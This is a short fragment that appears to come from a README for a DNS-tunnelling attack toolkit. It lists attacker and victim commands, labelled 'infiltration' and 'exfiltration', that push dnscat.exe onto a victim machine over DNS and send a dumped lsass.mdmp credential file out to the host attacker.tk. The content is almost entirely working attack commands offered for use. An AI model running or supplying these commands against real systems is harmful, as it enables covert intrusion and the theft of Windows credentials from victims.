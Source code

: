 Correct `yourzone.tk`.

### infiltration
Change loops count in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### exfiltration
```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```
